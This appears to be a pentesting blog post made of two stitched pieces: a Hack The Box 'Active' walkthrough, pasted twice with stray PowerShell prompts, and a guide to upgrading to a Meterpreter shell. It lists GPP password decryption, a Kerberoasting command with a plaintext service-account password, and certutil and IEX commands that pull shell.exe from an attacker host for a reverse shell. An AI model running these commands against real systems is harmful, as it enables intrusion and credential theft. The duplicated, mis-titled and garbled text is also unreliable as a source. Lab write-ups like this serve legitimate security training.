 ```yaml
---
title: "Upgrading Shells"
date: 2024-07-02 21:55:00 +0800
categories: [Shells-Upgrade, Meterpreter]
tags: [Devel, Easy-Level, Windows-PrivEsc]
---
```


![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
Not so Important Intro:
Hello Folks, Today I’m going through an easy machine, Which is comprised of Active Directory Enumeration and Also compromising the domain controller. I’m gonna write a series of active directory machines from HTB. Since it is gonna help with my PNPT.
For those who have common goals like OSCP. It can be helpful follow-up. Since I’m gonna do a memory palace for every machine at the end of the write-up.
Now now, Enough Intro…
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
Analyzing Nmap result:
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
we have 135 open for RPC, 139 NetBIOS-SSN & 445 for SMB. Since It was running a domain server. And 464 kpasswd5,593 ncacn_http and 3268 LDAP are the common ports that can let us identify it as a Windows domain controller.
As we start with 445 SMB, You can always start with smbclient to try connecting every possible share it can connect. In this case, anonymous login was allowed. so we could list shares with the command
smbclient -L //////
You can also use smbmap to see the permissions that are kept on these shares.
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
Also can Enumerate the shares with “smbclient \\\\<IP>\\\share” each share at a time. Helps me try connecting the shares one by one.
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
At this point, I saw there is a directory called active.htb\ Which does have recursive directories, It is gonna take time tabbing to find out all the directories that exist on this share. 
So, I tried using recurse cmd. Which can recursively parse all the directories inside it for us. For this trick to work, I need to start the command with recurse & end it with recurse to stop using this. You can see the below example to understand what I am talking about.
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
With this in hand, I was able to find there is a Groups.xml that would normally consist of the information regarding the Group policy preferences. So, Using “get” cmd I got this file over to our Kali machine.
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
While observing closely, we already got name =” active.htb\SVC_TGS” We can see there is “cpassword” is presented inside the XML file. Which seems to be encrypted. And since, it is a GPP file. We can decrypt it with a tool called “gpp-decrypt”. available on Kali Linux.
gpp-decrypt
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
So, if we are gonna double check these credentials with smbmap,
Now, we have some credentials in hand, we can just go try these details with our beloved smbclient once again,
smbclient //10.10.10.100/Users -U active.htb/SVC_TGS
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
Tadatadattaaaaa!! We got the User Flag.
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
We got some foothold on the machine. now we can access the machine remotely and have some credentials in hand.
I searched thoroughly to see any other things I could do, secretsdump, psexec, etc..; these tools can let us improvise towards token impersonation.
Nothing worked. During this phase after getting some access, people go towards lateral movement escalation.
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
Kerberoasting is another method that grants us tickets enabling us privilege escalation and better access. Since, normally kerb account is an admin privilege user on a domain controller.  
For some detailed notes, Feel free to read these notes here kerberoasting, or other YouTube videos for a better explanation.
sudo GetUserSPNs.py active.htb/SVC_TGS:GPPstillStandingStrong2k18 -dc-ip 10.10.10.100 -request
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
Got the ticket!!! let’s decrypt it further using hashcat. we can also see we got ticket of a administrator account.
Hashcat Cracking:
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
Got the password!!😁
Successfully compromised the Domain!! We got the Admin Shell.
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
Let’s get the root flag for the credit.
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
In-Summary: Active is an easy to medium-difficulty machine, which features two very prevalent techniques to gain privileges within an Active Directory environment.
why we are doing, what we are doing?
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
PS C:\Users\Eshwa> C:/Users/Eshwa/AppData/Local/Microsoft/WindowsApps/python3.10.exe C:\Users\Eshwa\image_replace.py

![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
Not so Important Intro:
Hello Folks, Today I’m going through an easy machine, Which is comprised of Active Directory Enumeration and Also compromising the domain controller. I’m gonna write a series of active directory machines from HTB. Since it is gonna help with my PNPT.
For those who have common goals like OSCP. It can be helpful follow-up. Since I’m gonna do a memory palace for every machine at the end of the write-up.
Now now, Enough Intro…
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
Analyzing Nmap result:
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
we have 135 open for RPC, 139 NetBIOS-SSN & 445 for SMB. Since It was running a domain server. And 464 kpasswd5,593 ncacn_http and 3268 LDAP are the common ports that can let us identify it as a Windows domain controller.
As we start with 445 SMB, You can always start with smbclient to try connecting every possible share it can connect. In this case, anonymous login was allowed. so we could list shares with the command
smbclient -L //////
You can also use smbmap to see the permissions that are kept on these shares.
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
Also can Enumerate the shares with “smbclient \\\\<IP>\\\share” each share at a time. Helps me try connecting the shares one by one.
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
At this point, I saw there is a directory called active.htb\ Which does have recursive directories, It is gonna take time tabbing to find out all the directories that exist on this share. 
So, I tried using recurse cmd. Which can recursively parse all the directories inside it for us. For this trick to work, I need to start the command with recurse & end it with recurse to stop using this. You can see the below example to understand what I am talking about.
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
With this in hand, I was able to find there is a Groups.xml that would normally consist of the information regarding the Group policy preferences. So, Using “get” cmd I got this file over to our Kali machine.
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
While observing closely, we already got name =” active.htb\SVC_TGS” We can see there is “cpassword” is presented inside the XML file. Which seems to be encrypted. And since, it is a GPP file. We can decrypt it with a tool called “gpp-decrypt”. available on Kali Linux.
gpp-decrypt
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
So, if we are gonna double check these credentials with smbmap,
Now, we have some credentials in hand, we can just go try these details with our beloved smbclient once again,
smbclient //10.10.10.100/Users -U active.htb/SVC_TGS
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
Tadatadattaaaaa!! We got the User Flag.
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
We got some foothold on the machine. now we can access the machine remotely and have some credentials in hand.
I searched thoroughly to see any other things I could do, secretsdump, psexec, etc..; these tools can let us improvise towards token impersonation.
Nothing worked. During this phase after getting some access, people go towards lateral movement escalation.
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
Kerberoasting is another method that grants us tickets enabling us privilege escalation and better access. Since, normally kerb account is an admin privilege user on a domain controller.  
For some detailed notes, Feel free to read these notes here kerberoasting, or other YouTube videos for a better explanation.
sudo GetUserSPNs.py active.htb/SVC_TGS:GPPstillStandingStrong2k18 -dc-ip 10.10.10.100 -request
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
Got the ticket!!! let’s decrypt it further using hashcat. we can also see we got ticket of a administrator account.
Hashcat Cracking:
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
Got the password!!😁
Successfully compromised the Domain!! We got the Admin Shell.
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
Let’s get the root flag for the credit.
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
In-Summary: Active is an easy to medium-difficulty machine, which features two very prevalent techniques to gain privileges within an Active Directory environment.
why we are doing, what we are doing?
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)

PS C:\Users\Eshwa> ^C
PS C:\Users\Eshwa> C:/Users/Eshwa/AppData/Local/Microsoft/WindowsApps/python3.10.exe C:\Users\Eshwa\scrape-medium.py
Tired of netcat shell,
why Meterpreter again?: you cannot use a few system commands and run Meterpreter exploits, You cannot run any of the staged payloads which normally take fewer bytes (gonna be useful in situations, Where you would require less than 512 bytes as a payload For Example).
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
Hello guys!! I am gonna write a dynamic walkthrough for this blog post. I will keep updating this, as soon as I get to know new tricks. Please check back for updates.
Architecture:
First of all, knowing the architecture of the machine we are attacking is the most important step in building our payload for a Meterpreter shell.
Use the following cmds to find Architecture,
or sysinfo would be in handy…
still unclear. For example, Instead of using windows/x64/meterpreter/reverse_tcp
choose the windows/meterpreter/reverse_tcp as a default for x86 and x64. But that would limit the number of payloads we can use. You can simply find it by tabbing it.
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
Either way. it is gonna work both ways, with no problem.
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
Now, As we have some payload in our hands let’s upload it to the machine’s reach enabling us to execute it for the shell.
File Transfers:
if you’re on an SMB or an Evil-Winrm shell you can simply do put command or download.
For File transferring between the victim Windows machine to our Kali. First of all, we need to host our files on an HTTP or FTP server in the network. So, that the victim’s machine can access our payload.
Most common way to start a HTTP server is using python2 or python3.
python -m SimpleHttpServer 80 or python3 -m http.server 80
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
And running certutil -urlcache -f http://10.10.14.17/shell.exe shell.exe
would download the file from our Kali machine to this victim machine.
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
If PowerShell commands were permitted then,
Use IEX(New-Object Net.WebClient).downloadString(‘http://10.10.14.17/shell.exe')
With that, the payload delivery should be done. Let’s move on to the next step.
Listening for a Meterpreter Shell:
Another common way of doing this is gonna be use the msfconsole exploit/multi/handler would be the best listener for this job.
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
By default, it is configured with some BS payload. Configure the same payload you have created and uploaded to the victim machine.
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
set LHOST & LPORT with your own as similar to the payload you have uploaded!! and run it!!
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
All we are waiting for right now is to execution of the payload from client side.
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
or in some cases, if the file is accessible through the web, You can simply browse the file for execution.
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
And TADAaa!! We’ll get the Meterpreter shell!!
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*aSMEYEGhZ3fI9vaMPz8LJg.png)
Follow me, for more Priv Escalations, Active Directory Concepts & Other Pentesting Concepts, I can update you. As I learn them!! Thank you :-)